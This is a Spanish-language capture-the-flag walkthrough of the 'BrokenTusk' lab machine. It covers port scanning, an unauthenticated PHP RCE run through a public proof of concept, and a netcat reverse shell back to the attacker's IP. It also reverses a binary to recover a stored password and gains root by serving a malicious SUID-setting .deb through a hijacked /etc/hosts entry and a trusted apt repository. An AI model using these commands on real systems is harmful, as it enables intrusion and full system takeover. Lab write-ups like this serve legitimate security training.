

## Table of contents

## Enumeración

La máquina Brokentusk tiene la ip **10.0.2.20**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.20

Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
80/tcp open  http    nginx
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: BrokenTusk | Wildlife Rescue Foundation
```


### Puerto 80 (web)

Accedemos con el navegador a la ip y encontramos la web de una protectora de animales.


No se encuentra nada interesante pero si revisamos los headers de respuesta encontramos información útil.

```bash
curl -s http://10.0.2.20 -I

HTTP/1.1 200 OK
Server: nginx
Date: XXX, XX XX 20XX XX:XX:XX GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/8.0.30
Set-Cookie: PHPSESSID=7e500297ada98ae668abed1b0cf69933; path=/
Expires: XXX, XX XX XXXX XX:XX:XX GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
```

En los headers vemos que el backend de la aplicación está desarrollado con **php/8.0.30**, versión vulnerable a **PHP2SHELL**.


## Explotación
### CVE-2026-109618 / CVE-2026-109619 (PHP2SHELL)

**PHP2SHELL** es la combinación de los CVE-2026-109618 y CVE-2026-109619, son dos vulnerabilidades que permiten un **Remote Code Execution** (**RCE**) sin estar autenticado.

Para poder realizar la explotación vamos a emplear esta **Proof of Concept** del repositorio de Github del usuario **ikow**.

- https://github.com/ikow/php2shell-poc/tree/main

Dentro de exploit, nos descargamos **chain_a_session_lfi.py** y **lib.py**.

Ejecutamos el script **chain_a_session_lfi.py** pasándole la url de la web y el comando a ejecutar.

```bash
 python3 chain_a_session_lfi.py --target http://10.0.2.20 --command id
[*] Target: http://10.0.2.20:80
[*] Command: id

[attempt 1] SID=exploitaf580d7878e94e5fb478 file=/tmp/sessions/sess_exploitaf580d7878e94e5fb478
    plant=HTTP/1.1 200 OK
[+] RCE CONFIRMED: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Observamos que ha funcionado, por lo que nos ponemos en escucha con **netcat** y nos enviamos una reverse shell.

```bash
nc -nlvp 4444
```

```bash
python3 chain_a_session_lfi.py --target http://10.0.2.20 --command 'nc 10.0.2.15 4444 -e /bin/bash'
```

Entramos como el usuario **www-data**.

## Movimiento Lateral
### zer0arc4

Revisando el directorio `/opt` encontramos un binario llamado `passgoblin` que pasamos a nuestro equipo para analizarlo.

```bash
www-data@BrokenTusk:/$ ls -la /opt/
total 28
drwxr-xr-x  3 root root  4096 Oct 31 17:19 .
drwxr-xr-x 18 root root  4096 Nov  3 03:58 ..
-rwxr-xr-x  1 root root 14512 Oct 31 17:19 passgoblin
drwxr-xr-x  5 root root  4096 Nov  9 06:52 php2shell
```

Empleamos **ghidra** para aplicar reversering y ver el código fuente del binario. Descubrimos estas dos funciones:

```c
void FUN_00101199(long param_1,long param_2)

{
  int iVar1;
  char local_68 [72];
  char *local_20;
  int local_18;
  int local_14;
  int local_10;
  uint local_c;
  
  builtin_strncpy(local_68,"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/",0x41);
  local_c = 0;
  local_10 = -8;
  local_14 = 0;
  for (local_18 = 0;
      (*(char *)(param_1 + local_18) != '\0' && (*(char *)(param_1 + local_18) != '='));
      local_18 = local_18 + 1) {
    local_20 = strchr(local_68,(int)*(char *)(param_1 + local_18));
    iVar1 = local_10;
    if (local_20 != (char *)0x0) {
      local_c = ((int)local_20 - (int)local_68) + local_c * 0x40;
      iVar1 = local_10 + 6;
      if (-1 < iVar1) {
        *(char *)(param_2 + local_14) = (char)(local_c >> ((byte)iVar1 & 0x1f));
        local_14 = local_14 + 1;
        iVar1 = local_10 + -2;
      }
    }
    local_10 = iVar1;
  }
  *(undefined1 *)(param_2 + local_14) = 0;
  return;
}
```

```c

undefined8 FUN_001012f8(void)

{
  int iVar1;
  char *pcVar2;
  undefined8 uVar3;
  size_t sVar4;
  undefined1 local_1b8 [128];
  byte local_138 [24];
  undefined1 local_120;
  char local_118 [128];
  char local_98 [136];
  ulong local_10;
  
  puts("Welcome to the PassGoblin, user zer0arc4!");
  printf("Enter the Secret Key to view the credentials: ");
  pcVar2 = fgets(local_98,0x80,stdin);
  if (pcVar2 == (char *)0x0) {
    uVar3 = 1;
  }
  else {
    sVar4 = strcspn(local_98,"\n");
    local_98[sVar4] = '\0';
    FUN_00101199("Q09NUElMRURfV0lUSE9VVF9FUlJPUlNfQlVUX0ZVTExfT0ZfRVhJU1RFTlRJQUxfQ1JJU0lT",
                 local_118);
    iVar1 = strcmp(local_98,local_118);
    if (iVar1 == 0) {
      for (local_10 = 0; local_10 < 0x18; local_10 = local_10 + 1) {
        local_138[local_10] = (&DAT_00102010)[local_10] ^ 0x5a;
      }
      local_120 = 0;
      FUN_00101199(local_138,local_1b8);
      puts("\nAccess Granted!");
      puts("Username: zer0arc4");
      printf("Password: %s\n",local_1b8);
      puts("\nThe key said hello, the password said goodbye to its privacy.");
      memset(local_1b8,0,0x80);
      memset(local_138,0,0x19);
    }
    else {
      puts("\nAccess Denied! Invalid Secret Key.");
    }
    memset(local_98,0,0x80);
    memset(local_118,0,0x80);
    uVar3 = 0;
  }
  return uVar3;
}
```

La primera se encarga de decodificar una cadena de texto en base64. El resultado se almacena en el segundo argumento de la función y se termina con un byte nulo.

La segunda aplica la primera función con una cadena de texto y el resultado lo compara con un valor almacenado, en caso de que coincidan, lee 24 bytes de la dirección de memoria `DAT_00102010` y le aplica un **XOR** con `0x5a`, obteniendo como resultado una cadena en base64. Posteriormente, se decodifica esta cadena para obtener la contraseña usuario **zer0arc4**.

Por lo tanto, tenemos que obtener el valor de `DAT_00102010`. Comprobamos las protecciones del binario.

```bash
checksec --file=./passgoblins
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols        No    0               3               ./passgoblins
```

La protección **PIE** está habilitada, por lo que la dirección de memoria base de carga del binario puede variar entre ejecuciones. Por este motivo, necesitamos conocer la dirección base utilizada durante la ejecución para poder obtener la variable **DAT_00102010**.

Para ello, utilizamos **pwndbg**. Ejecutamos el comando `start` para iniciar el binario. A continuación, empleamos `info proc mappings` para consultar las regiones de memoria asignadas al proceso.

```bash
pwndbg ./passgoblins

pwndbg> start

pwndbg> info proc mappings
process 15144
Mapped address spaces:

Start Addr         End Addr           Size               Offset             Perms File 
0x0000555555554000 0x0000555555555000 0x1000             0x0                r--p  passgoblins 
0x0000555555555000 0x0000555555556000 0x1000             0x1000             r-xp  passgoblins 
0x0000555555556000 0x0000555555557000 0x1000             0x2000             r--p  passgoblins 
0x0000555555557000 0x0000555555558000 0x1000             0x2000             r--p  passgoblins 
0x0000555555558000 0x0000555555559000 0x1000             0x3000             rw-p  passgoblins 
```

Identificamos la dirección base de carga `0x555555554000`.


**Ghidra** nos muestra la dirección virtual de la variable **DAT_00102010**, que es `0x102010`. Para obtener su desplazamiento respecto a la base virtual ELF, `0x100000`, realizamos la siguiente operación:

'0x102010 - 0x100000 = 0x2010'

Este resultado es el desplazamiento de la variable respecto a la base virtual del binario.

Sumamos este valor a la dirección de carga obtenida anteriormente:

'0x555555554000 + 0x2010 = 0x555555556010' 

De esta forma, determinamos que la dirección de memoria de `DAT_00102010` durante esta ejecución es `0x555555556010`.

Usamos **pwndbg** para obtener los 24 bytes de esa dirección.

```bash
pwndbg> x/24xb 0x555555556010
0x555555556010: 0x0c    0x1d    0x63    0x2c    0x0b    0x37    0x36    0x34
0x555555556018: 0x0c    0x1d    0x63    0x13    0x3b    0x0d    0x08    0x36
0x555555556020: 0x17    0x0e    0x13    0x20    0x13    0x0b    0x67    0x67
```

El comando x/24xb hace referencia:
- x: examinar una dirección de memoria.
- 24: mostrar 24 elementos.
- x: formato hexadecimal.
- b: mostrar cada elemento con el tamaño de un byte.

Ya tenemos los valores en hexadecimal de `DAT_00102010`. Empleamos el siguiente script de python para aplicar el XOR con `0x5a`, convertir el resultado en una cadena de texto y decodificarlo de base64.

```python
import base64

data=[
        0x0c, 0x1d, 0x63, 0x2c, 0x0b, 0x37, 0x36, 0x34,
        0x0c, 0x1d, 0x63, 0x13, 0x3b, 0x0d, 0x08, 0x36,
        0x17, 0x0e, 0x13, 0x20, 0x13, 0x0b, 0x67, 0x67
]

text = ''.join(chr(b ^ 0x5a) for b in data)

password= base64.b64decode(text)

print(password.decode())
```

Conseguimos la contraseña **TooBigToHide123!** perteneciente al usuario **zer0arc4**.

```bash
zer0arc4@BrokenTusk:~$ ls -la
total 28
drwx------ 3 zer0arc4 zer0arc4 4096 Nov  7 11:29 .
drwxr-xr-x 3 root     root     4096 Oct 31 16:18 ..
lrwxrwxrwx 1 root     root        9 Nov  7 11:29 .bash_history -> /dev/null
-rw-r--r-- 1 zer0arc4 zer0arc4  220 Oct 31 16:18 .bash_logout
-rw-r--r-- 1 zer0arc4 zer0arc4 3526 Oct 31 16:18 .bashrc
drwx------ 3 zer0arc4 zer0arc4 4096 Nov  3 12:47 .local
-rw-r--r-- 1 zer0arc4 zer0arc4  807 Oct 31 16:18 .profile
-r-------- 1 zer0arc4 zer0arc4   33 Nov  3 14:07 user.txt
```

## Escalada de Privilegios
### Root

El usuario **zer0arc4** puede ejecutar `/usr/bin/apt-get update` y `/usr/bin/apt-get upgrade` como el usuario **root**.

Revisando los repositorios configurados de **apt**, vemos que se apunta a un repositorio llamado **package.brokentusk.nyx**

```bash
zer0arc4@BrokenTusk:~$ cat /etc/apt/sources.list.d/brokentusk.list 
# BrokenTusk custom package repository
deb [trusted=yes] http://package.brokentusk.nyx/debian/ trixie main
```

Esta configuración indica que el sistema obtiene los paquetes de dicho repositorio. Además, observamos que se utiliza la opción **trusted=yes**, que permite confiar en los paquetes del repositorio sin exigir una firma válida de los mismos.

También, tenemos permisos de escritura sobre **/etc/hosts**

```bash
zer0arc4@BrokenTusk:~$ ls -la /etc/hosts
-rwxrwxrwx 1 root root 224 Nov  7 19:43 /etc/hosts
```

Por lo tanto, podemos modificar la resolución del dominio package.brokentusk.nyx para que apunte a la dirección IP de nuestra máquina. 
De esta forma, podemos controlar el repositorio desde el que **apt** obtiene los paquetes y conseguir que, al ejecutar **apt-get upgrade**, se instale nuestro paquete **.deb** malicioso.

Primero, creamos el paquete que compilaremos como **new_curl.deb** que le otorgará permisos SUID a la bash después de su instalación.

```bash
mkdir -p evil/DEBIAN

cat << EOF > evil/DEBIAN/control 
Package: curl
Version: 555.0
Architecture: amd64
Maintainer: root
Description: new curl
EOF

cat << EOF > evil/DEBIAN/postinst
#!/bin/bash
chmod u+s /bin/bash
EOF

chmod +x evil/DEBIAN/postinst

dpkg-deb --build evil new_curl.deb
```

Una vez preparado el paquete, necesitamos generar la estructura del repositorio debian para que apt-get pueda localizarlo y consultar la información del paquete.

```bash
mkdir -p debian/pool/main
mkdir -p debian/dists/trixie/main/binary-amd64

mv new_curl.deb debian/pool/main

cd debian

dpkg-scanpackages pool/main /dev/null > dists/trixie/main/binary-amd64/Packages

xz -k -f dists/trixie/main/binary-amd64/Packages

echo -e "Architectures: amd64\nComponents: main\nSuite: trixie\nCodename: trixie\nDate: $(date -R)" > dists/trixie/Release
```

Una vez hecho, añadimos nuestra ip y el subdominio al /etc/hosts de la máquina.

```bash
echo '10.0.2.15 package.brokentusk.nyx' | tee -a /etc/hosts
```

Levantamos un servicio http con python para compartir el paquete. Importante: debemos estar en el directorio donde hayamos creado el directorio debian; de lo contrario, **apt-get** no lo encontrará.

```bash
ls
debian  evil
```

```bash
python3 -m http.server 80
```

Ejecutamos `update` y `upgrade`. Tras finalizar la instalación, lanzamos una bash privilegiada y somos **root**.

```bash
zer0arc4@BrokenTusk:~$ sudo /usr/bin/apt-get update
zer0arc4@BrokenTusk:~$ sudo /usr/bin/apt-get upgrade

zer0arc4@BrokenTusk:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1298416 Jul 12 12:58 /bin/bash
zer0arc4@BrokenTusk:~$ bash -p
bash-5.2# whoami
root
bash-5.2# ls -la /root/
total 28
drwx------  4 root root 4096 Nov  7 11:36 .
drwxr-xr-x 19 root root 4096 Nov  9 07:58 ..
lrwxrwxrwx  1 root root    9 Nov  7 11:34 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 Nov  7 11:26 .bashrc
drwx------  3 root root 4096 Oct 31 16:22 .local
-rw-r--r--  1 root root  132 Jul  4 05:05 .profile
-r--------  1 root root   33 Nov  3 14:07 root.txt
drwx------  2 root root 4096 Oct 31 16:23 .ssh
```